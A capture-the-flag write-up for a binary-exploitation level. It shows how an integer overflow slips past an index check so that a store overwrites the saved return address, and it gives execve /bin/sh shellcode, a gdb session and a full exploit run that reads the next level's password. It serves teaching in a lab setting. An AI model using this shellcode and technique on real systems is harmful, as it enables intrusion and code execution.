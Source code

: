 # Level07

This binary provides a simple number storing interface with three commands:		
- `store`, saves input number (int == 4 bytes) at input index (offset = index * 4).		
- `read`, display number stored at input index.		
- `quit`, exit the program.		

This effectively allows us to write anything we want on the stack 4 bytes at a time.		
We will overwrite the `EIP` save to take control of the execution flow and redirect to some **shellcode**.
However there is a `input index % 3` check that prevents us from saving at any index that is divisible by 3.		
To obtain the correct offset to save the value at, the program takes the input index and `shl eax, 2` which effectively multiplies by 4.		

To `store` at an index divisible by 3, we can simply input a value that will overflow to the true index value after the `shl eax, 2`. For example, to `store` at index 0, we can input `1073741824`. Debugging is easy with the `read` command.		

## Obtaining RET offset index
Lets find the `EIP` save relative to the start of the buffer:		
4 pushed registers (16)		
`and esp, 0xfffffff0` (alignment to 16 bytes, removed 12 bytes)		
size of stack: `0x1d0` (464)		
start of buffer: `esp+0x24` (36)		

`(464-36+16+12)/4 = 114`		

Find the integer that will overflow to `114 * 4`:		
`1073741824` (a quarter of UINT_MAX)		
`1073741824 + 114`		
`1073741938`		

We can use read command to check if we are storing at the correct index (it should segfault when we quit)		
```bash
./level07
Input command: store
 Number: 45
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 45
 Completed read command successfully
Input command: quit
Segmentation fault (core dumped)
```

## Injecting our **shellcode**
This program flushes environment variables and globals at the start of the execution disabling us from using them to store our **shellcode**. We will have to store the **shellcode** inside the databasei buffer.		
Lets find the address of our buffer:
```bash
gdb level07
b *0x08048795	; its address is loaded into ebx here
r
Breakpoint 1, 0x08048795 in main ()
p (void*)$ebx
$1 = (void *) 0xffffd504

printf %d 0xffffd504
4294956292
```
Because gdb adds runtime environment variables, the address of our buffer is innacurate, adding some '\90' instruction padding and increasing our address by 32 bytes is enough to reach it.		

Our shellcode:		
```bash
\x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 		
\x6a\x0b\x58\x99 \x52\x68\x2f\x2f \x73\x68\x68\x2f \x62\x69\x6e\x89 		
\xe3\x31\xc9\xcd \x80 ; 21 bytes execv() shellcode + 16 bytes of padding		
```
All that is left is placing our shellcode inside the buffer:		
- divide into 4 bytes sections		
- reverse them		
- convert to decimal		
- store them starting from index 0 (using the overflow exploit)		

```bash
printf %d 0xffffd536 ; address of buffer +32
4294956342

./level07
Input command: store
 Number: 4294956292
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956292
 Completed read command successfully
Input command: store
 Number: 2425393296
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 2425393296
 Index: 1
 Completed store  command successfully
Input command: store
 Number: 2425393296
 Index: 2
 Completed store command successfully
Input command: store
 Number: 2425393296
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 2572684138
 Index: 4
 Completed store command successfully
Input command: store
 Number: 791636050
 Index: 5
 Completed store command successfully
Input command: store
 Number: 795371635
 Index: 1073741830
 Completed store command successfully
Input command: store
 Number: 2305714530
 Index: 7
 Completed store command successfully
Input command: store
 Number: 3452514787
 Index: 8
 Completed store command successfully
Input command: store
 Number: 128
 Index: 1073741833
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956292
 Completed read  command successfully
Input command: store
 Number: 4294956342
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956342
 Completed read command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
